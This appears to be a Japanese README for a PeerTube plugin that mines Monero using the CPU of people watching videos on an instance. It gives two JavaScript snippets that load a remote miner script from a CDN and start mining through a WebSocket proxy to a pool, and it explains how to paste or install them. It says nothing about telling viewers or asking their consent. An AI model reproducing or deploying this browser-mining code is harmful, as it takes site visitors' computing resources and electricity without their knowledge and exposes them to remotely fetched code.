 <div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./modenart-sempai.png" width="400" height="300">

Googleの検索エンジンに引っ掛からないから色々やっているんですが、中々ヒットしないから上の画像をalt付きで貼り付けたりと手を尽くしています。

このコードが新規にPeerTubeのプラグインを開発する方々の助けや参考になれば良いなと思っています。

・Github Pages<br>
<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a>

・Repository<br>
<a href="https://github.com/PYU224/peertube-plugin-monero-miner">https://github.com/PYU224/peertube-plugin-monero-miner</a>

</div>

# PeerTube plugin Quickstart

See https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

https://github.com/NajmAjmal/monero-webminer

Issueとかでご意見や改善案を出してくださると嬉しいです。

野獣動画2ndというPeerTubeのインスタンスで試験運用中です。

# このプラグインについて

PeerTubeでMonero（XMR）のマイニングをPeerTubeを見ている方々のマシンのリソースを利用して行います。

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペしていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換しました。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたりこのプラグインは残しておく事にします。

# 使い方

<div align="center">

<img alt="現代アート先輩 PeerTube Monero XMR Mining Plugin" src="./setting.png">

</div>

画像で大体伝わると思いますが、Moneroのウォレットのアドレスは4から始まるアドレスにして入力、プラグインの設定をアップデートして更新すれば自動でJavaScriptが挿入されてマイニングが始まるはずです。

# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

https://www.npmjs.com/package/peertube-plugin-monero-miner

・プロフィール

https://x.com/PYU224

https://linksta.cc/@pyu224

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

https://github.com/PYU224/misskey-data